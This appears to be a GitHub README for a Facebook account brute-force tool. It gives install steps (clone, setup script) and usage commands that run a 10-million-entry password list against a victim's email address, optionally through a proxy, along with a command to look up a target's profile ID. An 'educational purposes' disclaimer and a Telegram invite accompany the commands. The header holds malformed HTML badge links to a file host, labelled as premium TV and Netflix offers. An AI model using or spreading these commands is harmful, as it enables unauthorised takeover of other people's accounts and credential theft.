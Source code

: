 
<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>



<a href="<a href="https://devuploads.com/5i9lnjzalx74"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/NETFLIX-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>
"><img title="GOTV AND DSTV PREMIUM" src="https://img.shields.io/badge/DSTV & GOTV-h?color=navyblue&style=for-the-badge&logo=DSTV"></a>

# Facebook_hack
###### Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://t.me/Dragonarlobot)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/Arlo-dragony/HACHER-DRAGON-FACEBOOK-ATTACK.git
```
```bash
cd Facebook_hack
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/dragon
  

